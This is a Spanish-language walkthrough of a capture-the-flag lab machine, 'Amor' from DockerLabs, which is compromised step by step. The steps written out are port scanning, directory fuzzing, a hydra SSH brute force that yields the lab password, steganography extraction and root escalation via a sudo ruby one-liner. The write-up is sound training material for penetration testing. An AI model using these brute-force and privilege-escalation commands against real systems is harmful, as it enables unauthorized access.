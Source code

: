 # 📄 Informe Técnico – Máquina Vulnerable **Amor** (DockerLabs)

**Nivel:** Fácil

**Autor:** AlejandroSL

**Fecha:** 10/05/2025

   ![](/Amor/Imagenes/Logo.png)

---

## 📌 Objetivo

Acceder a la máquina vulnerable **Amor**, identificar los servicios expuestos, obtener acceso mediante explotación remota y realizar escalada de privilegios hasta obtener acceso como **root**.

---

## 🔧 Despliegue de la máquina

1. Descargamos la máquina desde DockerLabs y la descomprimimos:

   ```bash
   unzip amor.zip
   sudo bash auto_deploy.sh amor.tar
   ```

   ![](/Amor/Imagenes/Despliegue.jpeg)

2. Verificamos la conectividad mediante `ping`:

   ```bash
   ping -c1 172.17.0.2
   ```

   ![](/Amor/Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

1. Escaneo rápido de puertos abiertos:

   ```bash
   sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
   ```

   Resultado: Puertos **22 (SSH)** y **80 (HTTP)** abiertos.
   ![](/Amor/Imagenes/Puerto.jpeg)

2. Extracción de puertos desde el archivo generado:

   ```bash
   extractPorts allPorts.txt
   ```

3. Escaneo profundo con scripts y detección de versiones:

   ```bash
   nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
   ```

   ![](/Amor/Imagenes/Servicios.jpeg)

---

## 🌐 Enumeración Web

Accedimos a la web en `http://172.17.0.2` y observamos varias notificaciones que revelaban nombres de usuarios: **Juan** y **Carlota**.
![](/Amor/Imagenes/Pagina.jpeg)

---

## 🪓 Fuzzing de directorios

Usamos `gobuster` para buscar directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2/javascript/jquery/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

Resultado: Se encontró el directorio **/javascript/jquery/jquery**
![](/Amor/Imagenes/Gobuster.jpeg)
![](/Amor/Imagenes/Gobusterdir.jpeg)

---

## 🔐 Fuerza Bruta SSH

Se intentaron múltiples combinaciones de usuarios. Finalmente, usando `hydra` se logró acceder al servicio **SSH** como el usuario **carlota**:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Credenciales válidas:

* **Usuario:** carlota
* **Contraseña:** babygirl
  ![](/Amor/Imagenes/Hydra.jpeg)

---

## 🖥️ Acceso a la máquina

Ingresamos exitosamente mediante SSH:

```bash
ssh carlota@172.17.0.2
```

![](/Amor/Imagenes/SSH.jpeg)

---

## 🕵️ Revisión de archivos y análisis de imagen

Dentro del directorio `/home/carlota/Desktop/fotos/vacaciones/` encontramos un archivo `imagen.jpg`. Lo transferimos a nuestra máquina con un servidor web:

En la máquina vulnerable:

```bash
python3 -m http.server 8080
```

En nuestra máquina atacante:

```bash
wget http://172.17.0.2:8080/imagen.jpg
```

![](/Amor/Imagenes/Descarga.jpeg)

Revisamos los metadatos de la imagen:

```bash
exiftool imagen.jpg
```

![](/Amor/Imagenes/Metadatos.jpeg)

---

## 🧪 Esteganografía y Decodificación

Usamos `steghide` para extraer información oculta en la imagen:

```bash
steghide extract -sf imagen.jpg
```

> No se solicitó contraseña (se presionó Enter).

Se extrajo un archivo `secret.txt` que contenía una cadena en **Base64**. La decodificamos:

```bash
echo 'c2VzbGFjYXNhZGVwaW55cG9u' | base64 -d > script.sh
cat script.sh
```

Contenido extraído:
**eslacasadepinypon**
![](/Amor/Imagenes/datos.jpe)

---

## 🧨 Escalada de Privilegios

Ejecutamos `sudo -l` para ver los comandos disponibles con permisos de **sudo**:

```bash
sudo -l
```

Se nos permite ejecutar este comando **sin contraseña**:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

Esto nos da una **shell como root**:

```bash
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

![](/Amor/Imagenes/root.jpeg)

---

## ✅ Conclusión

* Se identificaron servicios clave mediante escaneo de puertos.
* Se encontraron usuarios desde la web y se obtuvo acceso por fuerza bruta SSH.
* Se analizó una imagen que contenía una cadena Base64 con una palabra clave importante.
* Finalmente, se logró escalar privilegios a **root** explotando permisos `sudo` sobre un binario seguro mal configurado.

